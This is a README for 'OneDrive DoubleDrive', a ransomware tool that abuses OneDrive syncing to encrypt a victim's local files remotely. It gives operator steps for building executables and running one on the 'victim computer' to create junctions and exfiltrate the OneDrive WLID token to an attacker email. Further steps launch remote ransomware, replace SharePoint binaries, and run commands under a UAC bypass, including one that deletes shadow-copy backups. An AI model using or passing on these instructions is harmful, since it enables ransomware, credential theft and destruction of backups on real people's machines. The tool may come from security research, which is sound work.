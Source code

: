 # OneDrive DoubleDrive
A DoubleDrive variant that uses OneDrive to encrypt local files remotely.

## How to use
1. Make sure you clone the DoubleDrive repo and install the DoubleDrive python package. If you are currently in the onedrive_doubledrive folder then run:
```cmd
pip install ../
```
2. Use `config_setup.py` to setup the exact configuration you want for the ransomware. For example:
```cmd
python .\config_setup.py --temp-email --target-paths C:\Users\Admin\Documents C:\Users\Admin\Desktop
```
3. While you are in the onedrive_doubledrive folder, run:
```cmd
pyinstaller --onefile --add-data "config.yaml;." .\endpoint_takeover.py; pyinstaller --onefile --add-data "config.yaml;." .\onedrive_doubledrive.py
```
4. A folder named `dist` will be created. Inside you can find `endpoint_takeover.exe` and `onedrive_doubledrive.exe`
5. Transfer `endpoint_takeover.exe` to the victim computer and run it. This will create junctions in the OneDrive sync folder that point towards the target folders the contain files to encrypt. It will also extract the WLID token of the OneDrive account and exfiltrate it by sharing it with the email address chosen in the configuration setup stage.
> Note - If you chose a temporary email address you should continue to the next step as soon as possible because the generated temporary email address that DoubleDrive uses works for a limited amount of time.
6. Execute `onedrive_doubledrive` with the preferred flags on the attacker's computer. For example:
```cmd
onedrive_doubledrive.exe --remote-ransomware
```
7. In case you passed the `--onedrive-binaries-junction` flag to the `config_setup.py` script in the configuration setup stage, then you can:
   1. Replace the SharePoint executable located in OneDrive's installation folder by running:
   ```cmd
   onedrive_doubledrive.exe --replace-sharepoint
   ```
   2. Execute commands using the `--run-command` flag. You can also run them after a UAC bypass was executed if you add the `--command-uac-bypass` flag. For example:
   ```cmd
   onedrive_doubledrive.exe --run-command "vssadmin delete shadows /all /quiet" --command-uac-bypass
   ```